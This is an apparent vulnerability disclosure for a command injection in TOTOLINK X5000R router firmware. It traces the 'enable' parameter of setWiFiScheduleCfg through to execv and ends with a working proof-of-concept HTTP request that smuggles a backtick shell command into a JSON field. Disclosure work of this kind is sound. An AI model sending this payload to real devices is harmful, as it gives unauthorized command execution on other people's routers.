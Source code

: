### Overview:

Affected Device: totolink X5000R

Affected Firmware Version: V9.1.0cu.2300_B20230112

Vulnerability: command injection, leading to arbitrary command execution

Firmware Download Link: [https://download.totolink.tw/uploads/firmware/X5000R/TOTOLINK_X5000R_V9.1.0cu.2300_B20230112.zip](https://download.totolink.tw/uploads/firmware/X5000R/TOTOLINK_X5000R_V9.1.0cu.2300_B20230112.zip)

Report Email: [zwx918569613@gmail.com](mailto:zwx918569613@gmail.com)

![](Pasted%20image%2020231128164123.png)

### Vulnerability:

This vulnerability is a Remote Code Execution (RCE) that allows attackers to make arbitrary command execution

The vulnerability is located in the function `sub_413AB8` within `cstecgi.cgi`, also known as `setWiFiScheduleCfg`.

![](Pasted%20image%2020231128230012.png)


The function uses `Uci_Set_Str`, which passes the parameter `enable` as the fourth argument. In `libcscommon.so`,it can be observed that `Uci_Set_Str` calls `snprintf` to format our `param_4` into the string `uci -c %s set ....` and passes the string to the `CsteSystem` function,which will eventually be called by `execv`.

![](execv.png)

therefore , by controlling parameter `enable` , we can finally make an arbitrary command execution

### POC:
To reproduce the vulnerability, you can use the actual device or simulate it using qemu. The following POC can be used:

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 119
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"enable":"`id > /1.txt;`","addEffect":"0","topicurl":"setWiFiScheduleCfg","token":"00000000000000000000000000000000"}
~~~

(tips:if you use qemu emulation ur likely to patch a few places to work normally)
### Impact:

![](Pasted%20image%2020231128230512.png)
